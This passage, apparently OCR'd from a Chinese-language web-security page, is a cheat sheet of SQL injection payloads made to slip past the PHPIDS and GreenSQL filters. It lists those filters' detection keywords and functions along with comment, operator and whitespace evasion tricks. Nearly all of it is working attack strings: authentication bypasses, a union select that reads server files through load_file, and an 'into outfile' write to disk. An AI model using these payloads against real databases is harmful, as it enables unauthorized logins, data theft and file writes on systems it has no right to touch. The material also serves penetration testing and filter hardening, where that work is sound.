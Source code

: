 2. PHPIDS 0.6.4
  
```  sql
  
foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
  
foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0
  
a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1
  
```
  
3. GreenSQL 1.3.0 
检测关键字：union, information_schema, into outfile, current_user, current_date, version
检测函数：mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()
  
``` sql
  
adm' 'in' or 1='1        // auth bypass
  
'-(1)union(select table_name,load_file('/tmp/test'),@@version
  
from /*! information_schema.tables */);%00    //select union
  
'-'' into%a0outfile '/tmp/test   //write to file
  
```
  

  
c) SQLi Filter Evasion Cheat sheet
  
``` sql
  
#注释
  
' or 1=1#
  
' or 1=1/* (MySQL < 5.1)
  
' or 1=1;%00
  
' or 1=1 union select 1,2 as `
  
' or#newline
  
' /*!50000or*/1='1
  
' /*!or*/1='1
   
#前缀
  
+ – ~ !
  
' or –+2=- -!!!'2
#操作符：
  
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST,
  
GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL 
#空格
  
%20 %09 %0a %0b %0c %0d %a0 /**/
  
'or+(1)sounds/**/like"1"–%a0-
  
```